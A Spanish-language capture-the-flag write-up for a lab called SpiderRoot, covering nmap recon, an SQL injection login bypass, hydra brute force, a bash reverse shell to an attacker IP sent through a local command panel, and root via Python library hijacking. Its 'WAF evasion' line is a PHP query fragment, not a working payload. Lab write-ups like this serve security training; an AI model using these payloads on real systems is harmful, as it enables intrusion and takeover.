







<h1>LABORATORIO SpiderRoot</h1>
<h2>Desplegamos el laboratorio spiderport.tar</h2>

<h2>Realizamos un Reconocimiento de Nmap para conocer puertos abiertos y servicios activos</h2>

<h2>El laboratorio tiene dos puertos en funcionamiento</h2>
<li>Puerto 22</li>
<li>Puerto 80</li>

<h2>Entramos a la aplicacion web y nos encontramos con lo siguiente.</h2>

<h2>En la seleccion de Multiverso encontramos un panel de login por el cual intentaremos bypassear con el siguiente PAYLOAD</h2>
<h3> ' OR 1 = 1-- -</h3>

<h2>Vamos a intentar evadir el WAF con otros payloads el cual el que me funciono fue este: </h2>
<h3>` Query("select * from table where a=".$_GET['a']." and b=".$_GET['b']);</h3>

 

<h2>Ponemos el payload en el usuario y cualquier contraseña, y obtendremos las siguientes credenciales.</h2>

<h2>Guardamos los usuarios y contraseñas en un archivo txt</h2>

<h2>Realizamos un ataque de fuerza bruta con hydra y las credenciales correctas son estas: </h2>

<h2>Entramos por SSH</h2>

<h2>Visualizamos que puertos estan abiertos localmente y encontramos un servicio web en el puerto 8080</h2>

<h2>Hacemos una peticion al servidor web local.</h2>
<h3>curl -s "http://127.0.0.1:8080"</h3>

<h2>Encontramos un panel de ejecucion de comandos por la cual mandaremos una reverse shell a nuestro equipo.</h2>
<a href="https://www.revshells.com/">Aqui puedes generar la reverse shell, RECUERDA PONER EN ENCODING URL DECODER</a>
<h2>bash -c "bash -i >& /dev/tcp/10.10.10.10/9001 0>&1"</h2>
<h3>curl "http://127.0.0.1:8080/?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.0.2.15%2F443%200%3E%261%22"</h3>

 
<h2>Nos ponemos en escucha por netcat y mandamos la peticion con curl</h2>
<h3>nc -nlvp PUERTO</h3>

<h2>Obtendremos una reverse shell con el usuario www-data la cual tiene el siguiente binario con permisos de sudo.</h2>
<h3>/usr/bin/python3 /opt/spidy.py</h3>

<h2>Nos movemos la directorio /opt</h2>
<h2>Vizualizamos el contenido de /opt/spidy.py</h2>

<h2>Para escalar privilegios podemos hacer un python library hijacking</h2>
 
<h3>Python Library Hijacking es una técnica de escalada de privilegios que aprovecha la forma en que Python busca e importa módulos.

La idea es que, si un programa o script de Python se ejecuta con privilegios elevados (por ejemplo, como root) e importa una librería que un usuario sin privilegios puede modificar o reemplazar, ese usuario puede hacer que se ejecute código arbitrario con los privilegios del programa.

Supongamos que un script contiene:

import mensaje

Cuando Python ejecuta esa línea, busca mensaje.py en varios directorios (según el orden definido en sys.path).

Si un atacante puede colocar un archivo llamado mensaje.py en un directorio que Python revisa antes que la librería legítima, Python cargará el archivo del atacante en lugar del original.
</h3>
 

<h2>En este caso vamos a provecharnos de la libreria JSON, para la cual crearemos el siguiente script json.py</h2>

<h2>EJECUTAMOS EL SCRIPT spidy.py</h2>

<h2>ROOT OBTENIDO</h2>
  
<h3>FLAG: </h3>

 
<h1>Creditos a vareCruzz</h1>
<h1>SIGANME EN TODAS MIS REDES SOCIALES</h1>

